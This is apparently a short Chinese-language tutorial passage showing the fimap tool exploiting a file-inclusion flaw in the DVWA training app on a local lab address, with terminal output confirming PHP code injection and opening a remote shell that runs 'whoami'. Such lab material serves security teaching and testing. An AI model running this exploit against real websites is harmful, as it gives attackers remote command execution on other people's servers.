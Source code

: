 `-X`：进行漏洞验证，获得一个shell

```bash
➜  ~ fimap -X                                                                                                                                  
fimap v.1.00_svn (My life for Aiur)
:: Automatic LFI/RFI scanner and exploiter
:: by Iman Karim (fimap.dev@gmail.com)

###########################
#:: List of Domains ::    #
###########################
#[1] 192.168.56.101       #
#[q] Quit                 #
###########################
Choose Domain: 1
###############################################################################################################
#:: FI Bugs on '192.168.56.101' ::                                                                            #
###############################################################################################################
#[1] URL: '/DVWA/vulnerabilities/fi/?page=file3.php' injecting file: 'php://input' using GET-param: 'page'    #
#[q] Quit                                                                                                     #
###############################################################################################################
Choose vulnerable script: 1
[02:16:01] [INFO] Testing PHP-code injection thru POST...
[02:16:01] [OUT] PHP Injection works! Testing if execution works...
[02:16:01] [INFO] Testing execution thru 'popen[b64][win]'...
[02:16:02] [OUT] Execution thru 'popen[b64][win]' works!
####################################################
#:: Available Attacks - PHP and SHELL access ::    #
####################################################
#[1] Spawn fimap shell                             #
#[2] [Test Plugin] Show some info                  #
#[q] Quit                                          #
####################################################
Choose Attack: 1
Please wait - Setting up shell (one request)...
-------------------------------------------
Welcome to fimap shell!
Better don't start interactive commands! ;)
Also remember that this is not a persistent shell.
Every command opens a new shell and quits it after that!
Enter 'q' to exit the shell.
-------------------------------------------
fishell@MAJX2:D:\xampp\htdocs\DVWA\vulnerabilities\fi$> whoami
cn\majx2
```
